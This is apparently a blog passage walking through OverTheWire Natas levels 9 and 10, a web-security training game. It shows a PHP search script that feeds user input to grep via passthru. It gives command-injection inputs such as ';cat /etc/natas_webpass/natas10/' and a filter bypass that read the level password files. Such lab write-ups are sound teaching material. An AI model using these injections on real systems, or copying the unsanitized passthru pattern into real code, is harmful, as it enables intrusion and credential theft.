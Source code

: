 <p>Actually, what this script does is very dangerous. We know that grep is command line function searching through the text files. But what, if we have entered semicolon and then another command? Acutally, you can see it working by entering <b>;ls- la</b> in search form.  </p>

{%highlight bash%}
-rw-r----- 1 natas9 natas9 460878 Jun 25  2016 dictionary.txt
{% endhighlight %}

<p>Great, lets view the password by entering ;cat /etc/natas_webpass/natas10/, as it's also location of all passwords, which was stated in the beginning. </p>

<pre>
Output:
***********************

African
Africans
Allah
Allah's
</pre>

<p>Let's move to the next one!</p>

<h1>10</h1>

<p>This time we have the updated version of the script from the last one, filtering for certain characters.  </p>

{%highlight bash%}
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
{% endhighlight %}

<p>We have to find the way to execute this commands in a different way. And actually, after learning a lot about PHP I remembered that <b>.</b> concatenates 2 strings. So let's do this: <b>. /etc/natas_webpass/natas11</b></p>

<p>Which actually produces the output! I tried to do this also with HTML entities firstly, but unfortunately it did not work out.  </p>

<pre>
/etc/natas_webpass/natas11:***********************
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
</pre>

<hr>

<p>And that's the point where I had to end this part of Natas exercises. I'll come back soon with another part, as they are really interesting and completely different from others at OverTheWire. </p>

<p>See you in the next one!</p>

<p>~ Stay safe!</p>
